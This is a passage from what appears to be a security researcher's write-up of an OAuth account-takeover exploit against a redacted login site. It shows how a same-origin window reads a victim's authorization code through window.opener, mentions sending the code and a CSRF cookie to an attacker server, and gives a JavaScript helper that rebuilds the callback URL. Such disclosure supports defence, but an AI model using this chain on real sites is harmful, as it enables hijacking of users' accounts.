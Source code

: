 Now here's what will happen, the oauth flow will take place automatically as soon as the url is opened there is no user interaction is involved here where they need to select the google acc, it will automatically sign in the user via their google acc which the victim has previously used.

The winA page url will be like this after the oauth flow is done, a message will be shown on the page that the state param wasn't provided:

https://login.redacted.com/identity/sso/ui/AuthorizationError?ErrorCode=No_Oauth_State&ErrorDescription=State+was+not+sent+back&ProviderId=redacted#state=CAAAAY&code=4/0Ad...&id_token=eyJh..................

The code in winB executes after 9sec (this delay is to make sure the oauth flow takes place properly in the winA tab).
As I already explained winA and winB are of same origin login.redacted.com , we can easily accessed any info for winA window from winB.

winA can be accessed by winB via window.opener property, to get the hash value:

```
window.opener.document.location.hash
```




Now onto the next part, once we have stealed the victims authorization code. The above exploit also sends the authorization code and idcsrf cookie to attacker controlled server.

Copy the fragment part which is also displayed in the alert popup and paste it in the `getToken` method like I have done in this

```js
// taken one arguement from commandline


function getToken(token) {

    //split the params into array

    var params = token.split('&');

    //get the value for state param and code param

    var state = params[0].split('=')[1];
    var code = params[1].split('=')[1];

    //console.log(state)
    //console.log(code)

    url = `https://login.redacted.com/services/authcallback/google?state=${state}&code=${code}&scope=email+profile+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fuserinfo.email+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fuserinfo.profile+openid&authuser=0&prompt=none`
    console.log(url.replace(';', ''))




}

//using this we will generate the correct callback url, just paste your input inside it

getToken("state=CAAAAY&code=4/0AWtgz&scope=email%20profile%20https://www.googleapis.com/auth/userinfo.email%20https://www.googleapis.com/auth/userinfo.profile%20openid&id_token=eyJhb.............&authuser=0&prompt=none")
```
